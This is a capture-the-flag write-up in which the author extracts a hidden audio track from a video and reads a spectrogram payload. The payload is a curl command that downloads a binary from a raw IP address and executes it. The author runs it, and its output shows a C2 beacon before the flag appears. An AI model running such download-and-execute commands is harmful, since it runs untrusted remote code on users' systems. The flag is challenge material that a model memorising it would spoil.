 ## Sorry, you're NOT a sigma!
The lion says solve this challenge. You seem to have a good **track** record at doing so.

SHA256: 66591540e5dd8e925128513d1ca0810118350c822429e4e8c1d1a98b7d8924f3

## Solution

Because the word track is bolded, I decide to take a look at the files audio tracks by running `ffmpeg -i lion.mp4`, which showed me this:

```bash
  Stream #0:1(und): Audio: aac (LC) (mp4a / 0x6134706D), 48000 Hz, stereo, fltp, 128 kb/s (default)
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
  Stream #0:2(und): Audio: aac (LC) (mp4a / 0x6134706D), 22050 Hz, stereo, fltp, 121 kb/s
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
```

This means that there are two audio files. I extract the second one using `ffmpeg -i lion.mp4 -map 0:a:1 -acodec pcm_s16le audio2.wav`. Listening to audio2.wav, it sounds like weird distorted alien noises, which prompts me to open the file in Audacity. 

Opening audio2.wav in Audacity and viewing as Spectrogram and get this payload:


```bash
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
````

Running this command in my terminal gives me the flag:

```c
kali@kali:~$ curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
[*] Initializing beacon...
[*] Beacon attempt 1: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 2: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 3: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 4: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 5: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 6: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 7: phoning home...
[+] Beacon successfully reached C2 on attempt 7.
[*] Downloading payload...
[*] Decrypting response...
[+] Flag received:
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

FLAG: `CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}`
